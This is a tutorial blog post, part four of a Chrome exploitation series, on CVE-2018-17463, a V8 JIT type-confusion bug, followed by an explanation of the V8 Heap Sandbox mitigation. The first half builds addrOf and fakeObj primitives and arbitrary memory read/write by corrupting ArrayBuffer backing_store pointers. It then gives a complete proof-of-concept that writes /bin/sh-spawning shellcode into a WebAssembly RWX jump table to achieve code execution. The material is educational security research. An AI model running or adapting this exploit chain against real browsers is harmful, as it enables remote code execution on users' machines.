

[Research] Starting Chrome Exploitation with Type Confusion 101 ^-^☆ Part 4.(EN)
Hello, OUYA77 here!
Last time I failed to manage the post length and stopped after obtaining only the Read/Write primitives; this time I’ll go all the way to RCE. So in this post I’ll cover the remaining exploit details from CVE-2018-17463 and talk about the Heap Sandbox.
See previous posts
→ Starting Chrome Exploitation with Type Confusion 101 ^-^☆ Part 1.
→ Starting Chrome Exploitation with Type Confusion 101 ^-^☆ Part 2.
→ Starting Chrome Exploitation with Type Confusion 101 ^-^☆ Part 3.
0. Recap
In Part 3 we used type confusion to find overlapping property pairs. Because an object pointer was interpreted as a double, by reading/writing the double field we were able to obtain Read/Write primitives from the pointer value being corrupted.
- The addrOf Read Primitive
function addrOf() {
// 1. Dynamically create the vuln function (bypass Map checks)
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
// We expect p1 to be a Double, but the actual loaded value is
// an Object pointer (p2)
return obj.p${p1}.x;
}
`);
let obj = {z: 1234}; // target object whose address we want to know
let pValues = [];
pValues[p1] = {x: 13.37}; // Double (expected type)
pValues[p2] = {y: obj}; // Object (actual loaded value)
// 2. Trigger JIT optimization and induce Type Confusion
for (let i = 0; i < 10000; i++) {
let res = vuln(makeObj(pValues));
// If the return value is not 13.37 (i.e., an address leaked), success
if (res != 13.37) {
return res.toBigInt() - 1n; // return address with tag removed
}
}
throw "[!] AddrOf Primitive Failed"
}- The fakeObj Write Primitive
function fakeObj() {
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
let orig = obj.p${p1}.x;
// Overwrite property x of p1, but due to type confusion
// we overwrite property y of p2
obj.p${p1}.x = 0x41414141n;
return orig;
}
`);
let obj = {z: 1234};
let pValues = [];
pValues[p1] = {x: 13.37};
pValues[p2] = {y: obj};
for (let i = 0; i < 10000; i++) {
let res = vuln(makeObj(pValues));
if (res != 13.37) {
return res;
}
}
}Now that we have a read primitive that can leak addresses and a write primitive that can write to object addresses, we’ll refine these into arbitrary memory read/write (AAR/AAW) primitives for the exploit and drive toward RCE.
1. CVE-2018-17463 (cont’d) - For RCE
1.1 Relative R/W → AAR/W
Concept)
The current read/write primitives let us overwrite property values(pointers) inside other JavaScript objects, but that alone isn’t useful for reading/writing arbitrary memory addresses directly.
The problem stems from how V8 manages objects. Even if we overwrite a memory slot with a value that looks like an address (e.g., 0x41414141), V8 will still treat that value as a valid JavaScript object pointer. So if we write the address where we want to put shellcode into an object pointer slot, V8 will dereference that pointer expecting a real object layout and then try to access its internal fields (for example, the backing store pointer at offset 8). Because the memory at that address likely does not contain the expected object layout, V8 will crash or the manipulation will fail.
To get true arbitrary-address read/write(AAR/AAW) we must overwrite an internal field that V8 actually uses as a raw memory pointer, not a JavaScript object pointer. A commonly used target is the backing_store pointer of an ArrayBuffer. An ArrayBuffer represents a fixed-length block of binary data; one of its internal fields is a pointer to the actual memory that stores the bytes — the backing_store.
Because typed arrays (TypedArray, DataView, etc.) read and write through that backing_store pointer, controlling it effectively gives us control of what memory a typed-view reads/writes. Crucially, V8 treats the backing_store as a raw buffer address rather than validating it as a JavaScript object pointer, so overwriting it lets us point an ArrayBuffer at arbitrary memory.
Note: you cannot directly read/write data from an ArrayBuffer without a view — you must access it via a TypedArray or DataView using the desired format (float, 64-bit integer, etc.). The exploitation flow becomes: use the limited Relative R/W primitive to overwrite an ArrayBuffer‘s backing_store pointer, then use a TypedArray/DataView on that buffer to read/write arbitrary memory.
Exploitation)
Let’s see how to implement that concept with the fakeObj primitive we already used.
function fakeObj() {
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
let orig = obj.p${p1}.x;
// Overwrite property x of p1, but due to type confusion
// we overwrite property y of p2
obj.p${p1}.x = 0x41414141n;
return orig;
}
`);
let obj = {z: 1234};
let pValues = [];
pValues[p1] = {x: 13.37};
pValues[p2] = {y: obj}
...With fakeObj we can overwrite certain inline properties that overlap with other objects’ inline fields. In the vuln function we attempt to write p1.x, but due to type confusion that write actually targets p2‘s inline slot. That allows us to overwrite an object’s stored pointer value.
The diagrams below illustrate the overlap. The ArrayBuffer backing_store pointer sits at offset 32, so if we create an object with two inline properties (e.g., x1 and x2) where x2 overlaps that backing_store slot, we can use the fakeObj write to target the backing_store pointer.

ref: https://jhalon.github.io/chrome-browser-exploitation-3/
ArrayBuffer backing_store is at offset 32; by adding another inline property x2 we can reach and overwrite that pointer via our primitive.

Using one overwritten ArrayBuffer is useful, but repeatedly triggering the bug to change the backing_store each time you want to read/write many addresses is tedious. A more practical trick uses two ArrayBuffers:
- Corrupt the backing_store pointer of the first ArrayBuffer so it points to the second ArrayBuffer object.
- Use a
TypedArrayview on the first buffer to write into a specific property index which, because we pointed it at the second buffer, will overwrite the second buffer’s backing_store pointer. - Now the second buffer’s backing_store points at an attacker-controlled address. Using a
TypedArrayview on the second buffer lets you read/write that memory directly.
This two-buffer technique lets you rapidly read/write arbitrary heap addresses without retriggering the vulnerability for every access. Diagram showing the two-buffer trick:

Coding)
We previously hard-coded the overwritten value. Now we make the primitive accept a parameter for the new value, and we change p1 to have two inline properties, because the second inline property overlaps with the ArrayBuffer backing_store. So the vuln function must write to the second inline property to overwrite the backing_store pointer.
Also add a toNumber helper to convert BigInt addresses into the floating representation used in the type-confused slot (because our type confusion returns a float, we need to convert addresses into float bit patterns).
Final fakeObj primitive:
BigInt.prototype.toNumber = function toNumber() {
uint64View[0] = this;
return floatView[0];
};
function fakeObj(obj, newValue) {
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
// Write to Backing Store Pointer via Property x2
let orig = obj.p${p1}.x2;
obj.p${p1}.x2 = ${newValue.toNumber()};
return orig;
}
`);
let pValues = [];
// x2 Property Overlaps Backing Store Pointer for Array Buffer
let o = {x1: 13.37, x2: 13.38};
pValues[p1] = o;
pValues[p2] = obj;
for (let i = 0; i < 10000; i++) {
// Force Map Check and Redundancy Elimination
o.x2 = 13.38;
let res = vuln(makeObj(pValues));
if (res != 13.38) {
return res.toBigInt();
}
}
throw "[!] fakeObj Primitive Failed"
}
We must also update the addrOf primitive in the same way (use x2):
function addrOf(obj) {
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
// Trigger our type-confusion by accessing an out-of-bound property
// This will load p1 from our object thinking it's a Double, but instead
// due to overlap, it will load p2 which is an Object
return obj.p${p1}.x2;
}
`);
let pValues = [];
// x2 Property Overlaps Backing Store Pointer for Array Buffer
pValues[p1] = {x1: 13.37, x2: 13.38};
pValues[p2] = {y: obj};
for (let i = 0; i < 10000; i++) {
let res = vuln(makeObj(pValues));
if (res != 13.37) {
// Subtract 1n from address due to pointer tagging.
return res.toBigInt() - 1n;
}
}
throw "[!] AddrOf Primitive Failed"
}
Now that the exploit script is modified, we should be able to overwrite an ArrayBuffer’s backing_store pointer. Let’s test it: create a new 1024-byte ArrayBuffer, leak its address, then overwrite its backing_store with 0x41414141 and verify using %DebugPrint that the backing_store changed.
Append to the script:
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);
// Create Array Buffer
let arrBuf1 = new ArrayBuffer(1024);
print("[+] Leaking ArrayBuffer Address...");
let arrBuf1fAddr = addrOf(arrBuf1);
print(`[+] ArrayBuffer Address: 0x${arrBuf1fAddr.toString(16)}`);
%DebugPrint(arrBuf1)
print("[+] Corrupting ArrayBuffer Backing Store Address...")
// Overwrite Backing Store Pointer with 0x41414141
let ret = fakeObj(arrBuf1, 0x41414141n);
print(`[+] Original Leaked Data: 0x${ret.toString(16)}`);
%DebugPrint(arrBuf1)Example output:
[+] Finding Overlapping Properties...
[+] Properties p15 and p11 overlap!
[+] Leaking ArrayBuffer Address...
[+] ArrayBuffer Address: 0x2a164919360
...
[+] Corrupting ArrayBuffer Backing Store Address...
[+] Original Leaked Data: 0x1aeda203210
DebugPrint: ...
- backing_store: 0000000041414141
...
Now that we can overwrite backing_store, use two ArrayBuffers to build AAR/AAW primitives:
let memory = {
read64(addr) {
view1[4] = addr;
let view2 = new BigUint64Array(arrBuf2);
return view2[0];
},
write64(addr, ptr) {
view1[4] = addr;
let view2 = new BigUint64Array(arrBuf2);
view2[0] = ptr;
}
};Summary: using type confusion we first obtained relative R/W via overlapping properties; by corrupting ArrayBuffer backing_store and employing two buffers we convert that into arbitrary-address R/W.
Now let’s run the code and get code execution!
1.2 AAR/W → RCE
Toward Gaining Code Execution
Now that we have AAR/W, we need to execute code — but unfortunately we can’t just write shellcode into the V8 heap or an ArrayBuffer and run it, because DEP(Data Execution Prevention) is enabled. A common alternative is to target JIT memory.
When JavaScript code is JIT-compiled, the compiler writes machine instructions into memory pages that must be executed, so those pages are typically given RWX(Read-Write-Execute) permissions. An attacker can leak a pointer to a JIT-compiled function, overwrite the code at that address with shellcode, and then call the function to run the shellcode.
However, since 2018 the V8 team added write_protect_code_memory. That protection flips JIT pages to RX (Read-Execute) at execution time and to RW(Read-Write) only when writing, so it’s no longer feasible to treat JIT memory as permanently RWX. As with pwnable challenges, one workaround is to build a ROP(Return-Oriented Programming) chain: manipulate vtables, JIT function pointers, or the stack to achieve code execution. ROP construction is fairly involved, though, so instead we’ll use a simpler and more reliable approach: WebAssembly(wasm).
WebAssembly basics
WebAssembly is a binary format designed to run low-level code in the browser (often compiled from C/C++), and it interoperates with JavaScript.
V8 does not fully optimize wasm code immediately; it first uses a baseline compiler called Liftoff to produce machine code. Wasm also uses JIT memory, so machine code is placed in executable pages. Importantly, because of asm.js compatibility reasons, the write-protect flag for wasm was (at the time) typically disabled, which made wasm a very useful exploitation primitive.
When a wasm module is instantiated in V8, function calls go through a jump table. Each function slot in that table points to the actual machine code for the function (a WasmCode object). Those pointers reference executable memory, so an attacker who can overwrite them could hijack execution. (Back in 2018 the wasm jump table in the V8 heap was readable/writable/executable and thus easy to hijack — modern V8 has hardened this, though ㅜ.ㅜ.)
addrOf function re-building
Using our read/write primitives we can leak the wasm instance object address and the RWX jump table pointer. However, the earlier addrOf primitive relied on overlapping properties (which can corrupt other functionality), so we need a safer approach.
We will build a new addrOf by adding an out-of-line property to an ArrayBuffer, referencing the target object there, and then reading the property storage metadata via our memory read primitive to leak the object pointer. This avoids overwriting inline object fields.
Why this works_
**AnArrayBuffermanages raw bytes and, separately from inline properties, it has a property storage**(property backing store). If we assign an object to an out-of-line property (e.g.,arrBuf.leakMe = obj), a pointer to the object is placed in that property storage. By using our arbitrary memory read primitive to inspect that property store’s metadata, we can indirectly obtain the object pointer. In other words, we can leak an object’s address without overwriting its fields.
let memory = {
addrOf(obj) {
// Set object address to new out-of-line property called leakme
arrBuf2.leakMe = obj;
// Use read64 primitive to leak the properties backing store address of our array buffer
let props = this.read64(arrBuf2Addr + 8n) - 1n;
// Read offset 16 from the array buffer backing store and return the address of our object
return this.read64(props + 16n) - 1n;
}
};Using this technique we can finally leak the wasmInstance address and the RWX jump table pointer for that instance.
1.3. RCE PoC
Now let’s combine everything we’ve covered so far.
[1] Build primitives
Find the address of the second ArrayBuffer with addrOf, change the backing_store pointer of the first buffer to point to the second buffer’s address, and then build memory read/write primitives from that.
// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);
// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2Addr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address @ 0x${arrBuf2Addr.toString(16)}`);
// Corrupt Backing Store Pointer of arrBuf1 with Address to arrBuf2
print("[+] Corrupting ArrayBuffer Backing Store...")
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2Addr);
// Store Original Backing Store Pointer of arrBuf2
let view1 = new BigUint64Array(arrBuf1)
let originalArrBuf2BackingStore = view1[4]
// Construct Memory Primitives via Array Buffers
let memory = {
write(addr, bytes) {
view1[4] = addr;
let view2 = new Uint8Array(arrBuf2);
view2.set(bytes);
},
read64(addr) {
view1[4] = addr;
let view2 = new BigUint64Array(arrBuf2);
return view2[0];
},
write64(addr, ptr) {
view1[4] = addr;
let view2 = new BigUint64Array(arrBuf2);
view2[0] = ptr;
},
addrOf(obj) {
arrBuf2.leakMe = obj;
let props = this.read64(arrBuf2Addr + 8n) - 1n;
return this.read64(props + 16n) - 1n;
}
};
print("[+] Constructed Memory Read and Write Primitive!");[2] Create a WebAssembly instance
This wasm code block compiles a simple “dummy function” into JIT memory. When the instance is created, an internal RWX jump table is allocated. We can later overwrite that RWX memory with shellcode and execute it.
print("[+] Generating a WebAssembly Instance...");
// Generate RWX region for Shellcode via WASM
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;[3] Leak the RWX jump-table pointer
Using our primitive, obtain the wasm instance’s address and the jump-table start pointer.
// Leak WebAssembly Instance Address and Jump Table Start Pointer
print("[+] Leaking WebAssembly Instance Address...");
let wasmInstanceAddr = memory.addrOf(wasmInstance);
print(`[+] WebAssembly Instance Address @ 0x${wasmInstanceAddr.toString(16)}`);
let wasmRWXAddr = memory.read64(wasmInstanceAddr + 0xF0n);
print(`[+] WebAssembly RWX Jump Table Address @ 0x${wasmRWXAddr.toString(16)}`);[4] Inject shellcode
Read the jump-table pointer at offset 0xf0 from the wasmInstance object to obtain the RWX address. Use read64 to get the executable address, then write your shellcode there.
// Leak WebAssembly Instance Address and Jump Table Start Pointer
print("[+] Leaking WebAssembly Instance Address...");
let wasmInstanceAddr = memory.addrOf(wasmInstance);
print(`[+] WebAssembly Instance Address @ 0x${wasmInstanceAddr.toString(16)}`);
let wasmRWXAddr = memory.read64(wasmInstanceAddr + 0xF0n);
print(`[+] WebAssembly RWX Jump Table Address @ 0x${wasmRWXAddr.toString(16)}`);
print("[+] Preparing Shellcode...");
// Prepare Calc Shellcode
let shellcode = new Uint8Array([0x48,...
print("[+] Writing Shellcode to Jump Table Address...");
// Write Shellcode to Jump Table Start Address
memory.write(wasmRWXAddr, shellcode);[5] Call the wasm function to execute the shellcode
Finally, call the wasm function (main). Since the jump table now points to our shellcode, invoking the function will execute it.
// Execute our Shellcode
print("[+] Popping Calc...");
func();This completes the chain from a JavaScript-initiated bug to native code execution.
Below is the final PoC reflecting the above steps.
As mentioned in Part 1, these tests were performed on Linux. To port the PoC from Windows to Linux you only need to change the shellcode. I replaced the Windows calc shellcode with a shell-launching shellcode and executed it on Linux.
// Conversion Buffers
let floatView = new Float64Array(1);
let uint64View = new BigUint64Array(floatView.buffer);
Number.prototype.toBigInt = function toBigInt() {
floatView[0] = this;
return uint64View[0];
};
BigInt.prototype.toNumber = function toNumber() {
uint64View[0] = this;
return floatView[0];
};
// Function that creates an object with one in-line and 32 out-of-line properties
function makeObj(pValues) {
let obj = {
inline: 1234
};
for (let i = 0; i < 32; i++) {
Object.defineProperty(obj, 'p' + i, {
writable: true,
value: pValues[i]
});
}
return obj;
}
// Function to find overlapping properties
let p1, p2;
function findOverlappingProperties() {
let pNames = [];
for (let i = 0; i < 32; i++) {
pNames[i] = 'p' + i;
}
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
return [${pNames.join(', ')}];
}
`);
let pValues = [];
for (let i = 1; i < 32; i++) {
pValues[i] = -i;
}
for (let i = 0; i < 10000; i++) {
let res = vuln(makeObj(pValues));
for (let i = 1; i < res.length; i++) {
if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
[p1, p2] = [i, -res[i]];
return;
}
}
}
throw "[!] Failed to find overlapping properties";
}
// Return address of an object as a BigInt
function addrOf(obj) {
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
return obj.p${p1}.x1;
}
`);
let pValues = [];
pValues[p1] = { x1: 13.37, x2: 13.38 };
pValues[p2] = { y: obj };
for (let i = 0; i < 10000; i++) {
let res = vuln(makeObj(pValues));
if (res != 13.37) {
return res.toBigInt() - 1n;
}
}
throw "[!] AddrOf Primitive Failed";
}
// Function to write data to obj address
function fakeObj(obj, newValue) {
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
let orig = obj.p${p1}.x2;
obj.p${p1}.x2 = ${newValue.toNumber()};
return orig;
}
`);
let pValues = [];
let o = { x1: 13.37, x2: 13.38 };
pValues[p1] = o;
pValues[p2] = obj;
for (let i = 0; i < 10000; i++) {
o.x2 = 13.38;
let res = vuln(makeObj(pValues));
if (res != 13.38) {
return res.toBigInt();
}
}
throw "[!] fakeObj Primitive Failed";
}
// Find Overlapping Properties
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);
// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);
// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2Addr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address @ 0x${arrBuf2Addr.toString(16)}`);
// Corrupt Backing Store Pointer of arrBuf1
print("[+] Corrupting ArrayBuffer Backing Store...");
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2Addr);
// Store Original Backing Store Pointer of arrBuf2
let view1 = new BigUint64Array(arrBuf1);
let originalArrBuf2BackingStore = view1[4];
// Memory Read and Write Primitives
let memory = {
write(addr, bytes) {
view1[4] = addr;
let view2 = new Uint8Array(arrBuf2);
view2.set(bytes);
},
read64(addr) {
view1[4] = addr;
let view2 = new BigUint64Array(arrBuf2);
return view2[0];
},
write64(addr, ptr) {
view1[4] = addr;
let view2 = new BigUint64Array(arrBuf2);
view2[0] = ptr;
},
addrOf(obj) {
arrBuf2.leakMe = obj;
let props = this.read64(arrBuf2Addr + 8n) - 1n;
return this.read64(props + 16n) - 1n;
}
};
print("[+] Constructed Memory Read and Write Primitive!");
// Generate RWX region via WASM
print("[+] Generating a WebAssembly Instance...");
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;
// Leak WebAssembly Instance Address and Jump Table
print("[+] Leaking WebAssembly Instance Address...");
let wasmInstanceAddr = memory.addrOf(wasmInstance);
print(`[+] WebAssembly Instance Address @ 0x${wasmInstanceAddr.toString(16)}`);
let wasmRWXAddr = memory.read64(wasmInstanceAddr + 0xF0n);
print(`[+] WebAssembly RWX Jump Table Address @ 0x${wasmRWXAddr.toString(16)}`);
print("[+] Preparing Shellcode...");
// Linux x64 Shellcode to execute /bin/sh
let shellcode = new Uint8Array([
0x6a, 0x3b, // push 59 (syscall number for execve)
0x58, // pop rax
0x48, 0x31, 0xd2, // xor rdx, rdx (envp = NULL)
0x48, 0x31, 0xf6, // xor rsi, rsi (argv = NULL)
0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, // movabs rdi, "/bin/sh\x00"
0x57, // push rdi
0x48, 0x89, 0xe7, // mov rdi, rsp
0x0f, 0x05 // syscall
]);
print("[+] Writing Shellcode to Jump Table Address...");
// Write Shellcode
memory.write(wasmRWXAddr, shellcode);
print("[+] Spawning Shell...");
// Execute Shellcode
func();
Result
Because this exploit writes shellcode into a wasm instance’s jump table in memory, porting the payload to Linux involved only changing the shellcode. I replaced the calc payload with a shell spawner and ran it successfully on Linux.
- Windows

- Linux

1.4 Summary
We’ve now made it to Part 4, and since it’s been quite a long journey, let’s take a moment to summarize before moving on! (There’s still more ahead 😎)
In Part 1, we covered the foundational concepts necessary to understand Chrome’s internal architecture and the V8 engine.
In Part 2, we discussed the concept of Type Confusion — why it happens when the JavaScript engine misinterprets internal types, and what security risks it introduces.
In Parts 3 through 4 (so far), we took a deep dive into how Type Confusion can be leveraged to build read/write primitives, and how those primitives evolve into a full exploit chain.
Modern browsers operate using multiple processes and complex memory structures to support their wide range of features. This architecture gives attackers numerous potential vectors to target, and by chaining those vectors together, they can gain the ability to read or write arbitrary data in the heap.
This research post focused on one such vector — Type Confusion — showing how it can be exploited to manipulate memory and ultimately achieve remote code execution (RCE).
From a technical standpoint, the exploit for CVE-2018-17463 can be thought of as consisting of two major phases:
- Vulnerability → Primitive Construction Phase:
This phase involves analyzing the Type Confusion bug and crafting reliable memory read/write primitives. It’s primarily about understanding the root cause of the bug and the inner workings of the JavaScript engine. - Primitive → Code Execution (Weaponization / Pwn) Phase:
In this phase, the attacker uses the acquired primitives to target executable memory (RWX) and run arbitrary code. This step belongs more to the traditional pwnable/exploit engineering domain.
In other words, when viewed through the lens of CVE-2018-17463, everything up to the creation of the memory read/write primitives belongs to vulnerability and engine-level research, while overwriting the Wasm instance jump table to trigger actual RCE falls under pwnable exploitation.
Now, if you’ve studied pwnable before, you might already know what usually follows such an exploit…
That’s right — mitigation😭
(As someone studying vulnerabilities, I can’t decide whether to laugh or cry 😂)
In V8, optimizations that occur independently of the developer’s intentions can often lead to bugs like Type Confusion. Because this happened far too frequently, V8 introduced a new mitigation called the Heap Sandbox in early 2020.
Let’s continue and explore what Heap Sandbox is, and how it mitigates these attacks! ㅎ.ㅎ
2. V8 Heap Sandbox
In Chapter 2, “sandbox” doesn’t mean Chrome’s process sandbox but rather the heap sandbox inside the renderer — i.e., the V8 heap sandbox.
2.1 Motivation

For several years before the sandbox, over 60% of Chrome exploits started in V8, but many of those weren’t classic memory bugs (UAF, OOB). They were subtle logical bugs in the JIT compiler or runtime — or memory corruptions caused by such logic bugs. These aren’t problems you can eliminate just by writing “better” code, because the compiler itself becomes an attack surface. V8 therefore needed a tailored defensive layer that prevents memory corruption in the heap from immediately compromising the rest of the process — that is the core goal of the V8 Heap Sandbox.
Put it simply, the goal is to ensure that even if a vulnerability causes an arbitrary value (especially a pointer) to be written, that value cannot immediately take over the engine’s control flow. Like any security feature, the sandbox must keep overhead low. To achieve this, the Heap Sandbox generally follows these conceptual strategies:
- Memory partitioning / isolation: separate the engine heap memory (and related structures) from other runtime memory (host address space, JIT code pages, etc.) so that a heap value cannot directly translate into an external executable address.
- Pointer encapsulation & validation: encode (tag) pointer representations stored on the heap or validate pointers before they are used, preventing heap values from being mixed directly with host addresses.
- Restricted dereferencing / bounds checks: strictly distinguish whether a heap value is an executable code address and prevent interpreting arbitrary data as function pointers.
Overall, V8’s sandbox design focuses on protecting the rest of the process under the assumption that an attacker may be able to corrupt heap memory.
2.2 Implementation
The key idea in the sandbox design is to change how V8 dereferences addresses: instead of doing direct pointer arithmetic inside the engine, treat heap references as offsets/indices. This prevents raw heap values from becoming host addresses or executable pointers, and lets the runtime control pointer usage tightly. The high-level concept can be broken down as follows.

This concept can be divided into “sandbox address-space allocation / handling of pointers inside & outside the sandbox / trusted space,” and we’ll take a closer look at each of those in detail.
1. Sandbox Address Space
The sandbox reserves a large virtual address space that contains the memory V8 directly touches (engine heap, ArrayBuffer backing stores, Wasm memory, etc.). This space is reserved in virtual address space (potentially terabytes) and treated as the “sandbox.” Generous guard regions surround the sandbox to prevent out-of-bounds sandbox indices from escaping into the host address space, both logically and physically.

2. Sandboxed Pointers (pointers inside the sandbox )
References inside the sandbox are represented not as raw physical addresses but as offsets from the sandbox base. A SandboxedPointer uses a fixed-width offset (for example, 40 bits) relative to the sandbox base, so even if the offset value is corrupted, the resulting address remains inside the sandbox. Security-wise this blocks arbitrary access outside the sandbox; performance-wise it’s efficient because the sandbox base can be cached in a CPU register and offset→address conversion on x86-64 requires only two extra instructions (and one on ARM64).
3. Pointer Tables (pointers outside the sandbox )
Objects outside the sandbox (e.g., DOM nodes, external extension objects) are not referenced directly from within the sandbox. Instead, the sandbox stores indices into a pointer table. Sandboxed objects hold a table index rather than the external pointer itself; at runtime the sandbox resolves that index to an external pointer. This improves safety: spatial safety is enforced by bounds-checking table indices; temporal safety is improved because GC can manage and reclaim table entries. Table entries can also include type tags so that when a pointer is loaded it can be validated against an expected type — helping prevent Type Confusion attacks.

4. Trusted Space
Certain internal V8 objects (for example, bytecode arrays, deoptimization data) are difficult to protect solely with the sandbox or could be risky if mishandled. V8 therefore puts especially sensitive objects into a separate trusted heap area outside the sandbox. This trusted area has its own pointer-compression cage and is accessed from the sandbox via an indirection mechanism (e.g., a Trusted Pointer Table). As a result, even if an attacker corrupts data inside the sandbox, the chances of directly manipulating sensitive trusted objects are greatly reduced.

Summary
In short, the sandbox architecture: (1) isolates the heap into a large virtual address region, (2) represents pointers inside the sandbox as safe offsets, (3) uses index-based tables for references to outside-the-sandbox objects, and (4) isolates especially sensitive objects into a trusted space. This multi-layered approach effectively blocks heap-based vulnerabilities from immediately turning into execution control compromises.

Outro
Before the sandbox, simply overwriting a heap pointer so that a TypedArray’s backing_store pointed at attacker-chosen memory was often enough to get arbitrary read/write (AAR/AAW) across process memory.
With the sandbox, the difficulty of Chrome exploitation increased dramatically. The most direct effect is that pointer overwrite attacks are harder: the sandbox stops simple pointer casting or ensures that a corrupted value won’t be treated as a valid execution pointer. As a result, achieving a renderer-process RCE from a single vulnerability typically requires a sandbox escape.
But raising the difficulty only goes so far — if you can escape the sandbox…?

In the next post I’ll cover how renderer RCE is achieved after the sandbox was introduced.
See you next time! 🙌
Reference
https://jhalon.github.io/chrome-browser-exploitation-3/
https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8/
https://saelo.github.io/presentations/offensivecon_24_the_v8_heap_sandbox.pdf

본 글은 CC BY-SA 4.0 라이선스로 배포됩니다. 공유 또는 변경 시 반드시 출처를 남겨주시기 바랍니다.